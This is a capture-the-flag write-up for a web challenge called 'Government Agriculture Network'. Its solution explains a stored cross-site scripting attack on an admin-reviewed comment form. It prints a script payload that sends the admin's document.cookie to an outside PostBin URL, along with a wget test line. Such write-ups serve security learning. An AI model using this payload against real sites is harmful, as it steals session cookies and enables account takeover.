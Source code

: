 ### Government Agriculture Network

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Solution

We are given the following link `https://govagriculture.web.ctfcompetition.com/`.
There is functionality that allows us to post a comment. Doing so produces the response `Your post was submitted for review. Administrator will take a look shortly`. This likely means that an Admin will be interacting with our comment and potentially opening links. We can use this to potentially steal some information such as cookies from the Admin.

[PostBin](https://postb.in/) is a site used to test API clients and Webhooks so we can see the response of any requests made to our url of choice.

PostBin produces some code when selecting to create a new bin, the following will send a 'hello world' message to the url.

`wget https://postb.in/1567657223398-1281839197035?hello=world`

Now we need the Admin to automatically click through our link, an attack known as XSS (Cross Site Scriping) and request cookies, the code looks something like this:

`<script>
    location.href = 'https://postb.in/1561291979505-8530671542976?cookie=' + document.cookie;
</script>`

Submitting the above as a comment and refreshing PostBin reveals the following, with our flag clear to see:

![](postbin_ss.png)
